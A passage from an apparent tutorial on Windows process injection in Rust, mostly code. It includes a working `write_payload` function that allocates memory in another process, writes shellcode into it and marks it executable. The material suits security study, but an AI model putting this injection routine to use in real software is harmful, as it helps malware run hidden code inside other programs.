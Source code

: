 Lastly, the populated fields from the `pi` struct are copied into the variables that will be used further:

```rust
unsafe {*dw_process_id = pi.dwProcessId};
unsafe {*h_process = pi.hProcess as *mut c_void};
unsafe {*h_thread = pi.hThread as *mut c_void};
```

Mainly, the `Process Id`, the `Process Handle` and the `Process Thread` pointers are respectively copied into the variables.

### Write the Payload

```rust

pub fn write_payload(
    h_process: HANDLE,
    p_shellcode: *mut u8,
    s_size_shellcode: usize,
    p_payload_address: *mut *mut u8,
    ) {
    unsafe {
        *p_payload_address = VirtualAllocEx(
            h_process as *mut _,
            null_mut(),
            s_size_shellcode,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE,
        ) as *mut u8;

        let result = WriteProcessMemory(
            h_process as *mut _,
            *p_payload_address as *mut _,
            p_shellcode as *const _,
            s_size_shellcode,
            null_mut(),
        );

        let mut old_protection : DWORD = 0;
        let success_change_permissions = VirtualProtectEx(
            h_process as *mut _,
            *p_payload_address as *mut _,
            s_size_shellcode,
            PAGE_EXECUTE_READ,
            &mut old_protection as *mut DWORD
        );
    }
}
```